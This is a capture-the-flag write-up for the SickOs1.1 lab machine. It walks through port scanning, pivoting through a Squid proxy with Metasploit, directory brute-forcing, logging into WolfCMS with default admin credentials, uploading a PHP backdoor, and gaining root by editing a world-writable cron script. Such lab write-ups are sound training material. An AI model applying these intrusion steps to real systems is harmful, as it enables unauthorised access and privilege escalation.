

# SickOs1.1 Writeup

## Recon

### Port scanning

``` bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```
Seems port 3128 has a squid proxy open. This might allow for proxy pivoting to scan the internal network

```
msfconsole
use auxiliary/scanner/http/squid_pivot_scanning
set RHOSTS <IP>
set RPORT 3128
set RANGE <IP>
run
```

this does an internal port scan and returns

```
[+] [IP] IP is alive but 21 is CLOSED
[+] [IP] IP:80 seems OPEN
[+] [IP] IP is alive but 139 is CLOSED
[+] [IP] IP is alive but 445 is CLOSED
[+] [IP] IP is alive but 1433 is CLOSED
[+] [IP] IP is alive but 1521 is CLOSED
[+] [IP] IP is alive but 1723 is CLOSED
[+] [IP] IP is alive but 3389 is CLOSED
[+] [IP] IP is alive but 8080 is CLOSED
[+] [IP] IP is alive but 9100 is CLOSED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This shows that the proxy is able to connect to the internal 80 port. 
Let's see what is hosted there by setting our proxy to the virtual machine


It seems like there is something here. The next step is to do some directory busting

``` bash
dirb <ip> 
```

this returns:

```
---- Scanning URL: http://<IP>/ ----
+ http://<IP>/cgi-bin/ (CODE:403|SIZE:290)                                     
+ http://<IP>/connect (CODE:200|SIZE:109)                                      
+ http://<IP>/index (CODE:200|SIZE:21)                                         
+ http://<IP>/index.php (CODE:200|SIZE:21)                                     
+ http://<IP>/robots (CODE:200|SIZE:45)                                        
+ http://<IP>/robots.txt (CODE:200|SIZE:45)                                    
+ http://<IP>/server-status (CODE:403|SIZE:295) 
```

Let's look in robots.txt to see if there are any directories we've missed

```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

seems like there is a /wolfcms we haven't found. it looks like this



Looks like a content management system. The admin login page for wolfcms is located at
http://<IP>/wolfcms/?/admin/login

by trying some simple admin login credentials like "admin admin" we can login to the admin account.

by going to the article list we can see an article that contains php code. This probably means that the php code get's executed and might allow us to create a shell. By uploading a php file (which we can do as admin) we can upload a php backdoor to the /public folder.

now that we have our shell we can do some recon on the machine.

```
whoami
www-data
```

If we check /etc/cron.d/automate we can see that it contains

```
* * * * * root /usr/bin/python /var/www/connect.py
```

This means it executes a file as root in /var/www. since we are www-data we are able to write in that directory. This means we can edit the connect.py file to execute any piece of code we want.
This way we can read the flag by writing the python code

```
f = open("/root/a0216ea4d51874464078c618298b1367.txt")
f2 = open("/var/www/flag.txt", 'w')
f2.write(f.read())
```

After a little wait it creates a flag.txt file that we can read with the contents:

```
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```